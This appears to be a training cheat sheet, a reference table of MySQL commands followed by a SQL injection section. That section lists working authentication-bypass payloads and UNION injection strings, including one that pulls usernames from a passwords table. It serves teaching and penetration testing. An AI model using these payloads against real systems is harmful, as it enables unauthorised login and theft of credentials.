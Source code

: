 | `DESCRIBE logins` | Show table properties and columns |
| `INSERT INTO table_name VALUES (value_1,..)` | Add values to table |
| `INSERT INTO table_name(column2, ...) VALUES (column2_value, ..)` | Add values to specific columns in a table |
| `UPDATE table_name SET column1=newvalue1, ... WHERE <condition>` | Update table values |
| **Columns** |
| `SELECT * FROM table_name` | Show all columns in a table |
| `SELECT column1, column2 FROM table_name` | Show specific columns in a table |
| `DROP TABLE logins` | Delete a table |
| `ALTER TABLE logins ADD newColumn INT` | Add new column |
| `ALTER TABLE logins RENAME COLUMN newColumn TO oldColumn` | Rename column |
| `ALTER TABLE logins MODIFY oldColumn DATE` | Change column datatype |
| `ALTER TABLE logins DROP oldColumn` | Delete column |
| **Output** |
| `SELECT * FROM logins ORDER BY column_1` | Sort by column |
| `SELECT * FROM logins ORDER BY column_1 DESC` | Sort by column in descending order |
| `SELECT * FROM logins ORDER BY column_1 DESC, id ASC` | Sort by two-columns |
| `SELECT * FROM logins LIMIT 2` | Only show first two results |
| `SELECT * FROM logins LIMIT 1, 2` | Only show first two results starting from index 2 |
| `SELECT * FROM table_name WHERE <condition>` | List results that meet a condition |
| `SELECT * FROM logins WHERE username LIKE 'admin%'` | List results where the name is similar to a given string |

## MySQL Operator Precedence
* Division (`/`), Multiplication (`*`), and Modulus (`%`)
* Addition (`+`) and Subtraction (`-`)
* Comparison (`=`, `>`, `<`, `<=`, `>=`, `!=`, `LIKE`)
* NOT (`!`)
* AND (`&&`)
* OR (`||`)

## SQL Injection
| **Payload**   | **Description**   |
| --------------|-------------------|
| **Auth Bypass** |
| `admin' or '1'='1` | Basic Auth Bypass |
| `admin')-- -` | Basic Auth Bypass With comments |
| [Auth Bypass Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass) |
| **Union Injection** |
| `' order by 1-- -` | Detect number of columns using `order by` |
| `cn' UNION select 1,2,3-- -` | Detect number of columns using Union injection |
| `cn' UNION select 1,@@version,3,4-- -` | Basic Union injection |
| `UNION select username, 2, 3, 4 from passwords-- -` | Union injection for 4 columns |